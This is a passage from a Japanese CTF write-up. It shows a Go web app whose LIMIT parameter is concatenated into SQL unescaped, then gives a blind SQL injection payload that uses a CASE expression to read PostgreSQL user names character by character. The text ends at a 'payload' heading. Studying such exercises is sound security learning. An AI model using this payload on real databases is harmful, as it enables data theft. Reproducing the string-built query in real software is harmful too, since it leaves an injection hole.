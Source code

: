 ```go
    for rows.Next() {
        var text string
        var url string
        var tweeted_at time.Time

        err := rows.Scan(&url, &text, &tweeted_at)
        if err != nil {
            http.Error(w, http.StatusText(500), 500)
            return
        }
        data = append(data, Tweets{url, text, tweeted_at})
    }

    tmpl.Execute(w, data)
}

func initialize() {
    var err error

    dbname := "ctf"
    dbuser := os.Getenv("FLAG")
    dbpass := "password"

    connInfo := fmt.Sprintf("port=%d host=%s user=%s password=%s dbname=%s sslmode=disable", 5432, "db", dbuser, dbpass, dbname)
    db, err = sql.Open("postgres", connInfo)
    if err != nil {
        log.Fatal(err)
    }
}

func main() {

    initialize()

    r := mux.NewRouter()
    r.HandleFunc("/", handler_index).Methods("GET")

    http.Handle("/", r)
    http.ListenAndServe(":8080", handlers.LoggingHandler(os.Stdout, http.DefaultServeMux))
}
```
`search`では`'`を`\'`にエスケープしているが、`limit`ではしていないため、limit句にInjectできる場合のSQLInjectionテクニックが使える。  
ちなみに、`search`に`\`を挿入しても`'%\%'`となるので今回は`'\'`でバイパスするやつとは違う。残念。  
```go
var sql = "select url, text, tweeted_at from tweets"

search, ok := r.URL.Query()["search"]
if ok {
    sql += " where text like '%" + strings.Replace(search[0], "'", "\\'", -1) + "%'"
}

sql += " order by tweeted_at desc"

limit, ok := r.URL.Query()["limit"]
if ok && (limit[0] != "") {
    sql += " limit " + strings.Split(limit[0], ";")[0]
}
```
`pg_user`テーブルのusernameの一文字目が`c`なら、`limit 1`、そうじゃないなら`limit 0`で何も返されない。(0行返すという意味)  
```txt
limit=(CASE WHEN (SELECT ascii(substr(usename, 0, 1)) FROM pg_user LIMIT 1) = 99 THEN 1 ELSE 0 END)
```
- **payload**  